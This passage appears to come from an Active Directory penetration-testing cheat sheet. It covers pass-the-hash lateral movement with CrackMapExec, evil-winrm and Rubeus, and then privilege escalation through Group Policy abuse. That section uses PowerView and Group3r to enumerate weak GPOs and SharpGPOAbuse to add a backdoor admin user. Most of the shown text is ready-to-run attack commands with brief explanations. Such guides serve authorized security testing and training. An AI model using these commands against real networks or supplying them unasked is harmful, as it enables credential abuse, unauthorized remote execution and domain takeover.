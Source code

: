     ```bash
    crackmapexec smb 192.168.1.10 -u jdoe -H 'aad3b435b51404eeaad3b435b51404ee:31d6...'
    ```
    - **Explanation**: Mimikatz extracts NTLM hashes; CrackMapExec uses them for authentication.
  - Use evil-winrm with a hash:
    ```bash
    evil-winrm -i 192.168.1.10 -u jdoe -H 31d6...
    ```
    - **Explanation**: Authenticates to a host via WinRM using a stolen hash, enabling remote command execution.[](https://www.hackthebox.com/blog/active-directory-penetration-testing-cheatsheet-and-guide)
  - Use Rubeus for overpass-the-hash:
    ```powershell
    Rubeus.exe pth /user:jdoe /rc4:31d6... /domain:target.com
    ```
    - **Explanation**: Converts an NTLM hash into a Kerberos TGT for broader access.

## 4. Privilege Escalation
Objective: Elevate access from a standard user to Domain Admin or Enterprise Admin.

### 4.1 Abusing Group Policy Objects (GPOs)
- **Description**: Exploit misconfigured GPOs to execute malicious scripts or gain elevated privileges.
- **Techniques**:
  - Identify GPOs with excessive permissions (e.g., users with edit rights).
  - Modify GPOs to run malicious scripts or grant admin rights.
  - Exploit GPO delegation or unconstrained delegation vulnerabilities.
  - Check SYSVOL for sensitive data in scripts or configurations.
- **Tools**:
  - **BloodHound**: Maps AD relationships for escalation paths.
  - **PowerView**: Enumerates GPO permissions.
  - **SharpGPOAbuse**: Exploits GPO misconfigurations from Windows.
  - **ADACLScanner**: Analyzes AD ACLs for misconfigurations.
  - **StandIn**: Enumerates GPO and delegation issues.
  - **Group3r**: Identifies GPO misconfigurations.
- **Examples**:
  - Use PowerView to find GPOs with weak permissions:
    ```powershell
    Get-DomainGPO | Where-Object { $_ | Get-DomainObjectAcl -ResolveGUIDs | Where-Object { $_.SecurityIdentifier -match "S-1-5-11" } }
    ```
    - **Explanation**: Identifies GPOs editable by Authenticated Users, exploitable for malicious script execution.
  - Use Group3r to enumerate GPOs:
    ```powershell
    Invoke-Group3r -Domain target.com
    ```
    - **Explanation**: Finds GPOs with sensitive settings or credentials in SYSVOL, exploitable for escalation.
  - Use SharpGPOAbuse to modify a GPO:
    ```powershell
    SharpGPOAbuse.exe --AddUser --UserAccount hacker --GPOName "Default Domain Policy" --Domain target.com
    ```
    - **Explanation**: Adds a backdoor user to a GPO, granting admin rights when applied.
